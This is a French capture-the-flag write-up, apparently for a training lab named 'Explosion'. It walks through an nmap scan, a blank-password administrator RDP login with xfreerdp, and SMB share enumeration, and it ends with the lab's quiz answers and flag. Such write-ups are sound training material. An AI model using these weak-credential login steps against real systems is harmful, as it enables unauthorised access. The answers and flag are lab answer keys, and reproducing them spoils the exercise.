

# EXPLOSION


#programming, #RDP, #reconnaissance, #weak credentials

## 1. Méthodologie

On commence par la phase d'énumération avec la commande `nmap -sV IP_cible -p-` pour scanner tous les ports de la cible:

```
└──╼ [★]$ nmap -sV -p- 10.129.166.136
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-22 13:34 CST
Nmap scan report for 10.129.166.136
Host is up (0.0096s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Je vais tenter de me connecter sur le port 3389 qui est le port RDP. Pour se faire je vais utiliser le service xfreerdp avec cette commande: `xfreerdp /v:IP_cible:port /u:username` L'option /v: permet de cibler une IP avec le port, l'option /u: permet de spécifier l'utilisateur de connexion. Ici nous n'en avons pas mais nous pouvons tenter de nous connecter avec l'administrateur local soit "administrator" en laissant le mot de passe vide.

```
└──╼ [★]$ xfreerdp /v:10.129.166.136:3389 /u:administrator
[13:40:19:396] [34168:34169] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[13:40:19:396] [34168:34169] [WARN][com.freerdp.crypto] - CN = Explosion
Password: 
[13:40:22:058] [34168:34169] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[13:40:22:460] [34168:34169] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[13:40:22:460] [34168:34169] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[13:40:22:481] [34168:34169] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[13:40:22:481] [34168:34169] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[13:40:24:034] [34168:34169] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
```
Une session RDP s'ouvre. Je vais donc ouvrir le flag.txt sur le bureau.



Nous aurions pu également tenter de passer par le port 445 SMB en listant les partages (ce que j'ai fais après coup mais les deux premiers partages sont interdit d'accès et le troisième est vide):

```
└──╼ [★]$ smbclient -L 10.129.166.136 -p 445
Password for [WORKGROUP\arcanelle]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.166.136 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

└──╼ [★]$ smbclient \\\\10.129.166.136\\ADMIN$
Password for [WORKGROUP\arcanelle]:
tree connect failed: NT_STATUS_ACCESS_DENIED

└──╼ [★]$ smbclient \\\\10.129.166.136\\C$
Password for [WORKGROUP\arcanelle]:
tree connect failed: NT_STATUS_ACCESS_DENIED

└──╼ [★]$ smbclient \\\\10.129.166.136\\IPC$
Password for [WORKGROUP\arcanelle]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*
```

## 2. Questions

### Task 1

What does the 3-letter acronym RDP stand for?

```
Remote Desktop Protocol
```

### Task 2

What is a 3-letter acronym that refers to interaction with the host through a command line interface?

```
cli
```

### Task 3

What about graphical user interface interactions?

```
gui
```

### Task 4

What is the name of an old remote access tool that came without encryption by default and listens on TCP port 23?

```
telnet
```

### Task 5

What is the name of the service running on port 3389 TCP?

```
ms-wbt-server
```

### Task 6

What is the switch used to specify the target host's IP address when using xfreerdp?

```
/v:
```

### Task 7

What username successfully returns a desktop projection to us with a blank password?

```
administrator
```

### Flag

```
951fa96d7830c451b536be5a6be008a0
```

